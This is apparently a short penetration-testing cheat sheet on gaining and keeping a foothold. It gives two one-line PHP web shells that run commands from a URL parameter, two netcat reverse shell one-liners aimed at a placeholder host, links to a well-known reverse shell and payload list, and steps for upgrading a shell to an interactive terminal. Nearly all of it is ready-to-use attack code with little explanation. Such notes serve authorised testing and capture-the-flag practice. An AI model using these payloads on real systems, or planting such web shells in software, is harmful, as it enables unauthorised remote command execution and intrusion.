 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Stabilisation

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

or just

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

if `python3` is not available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

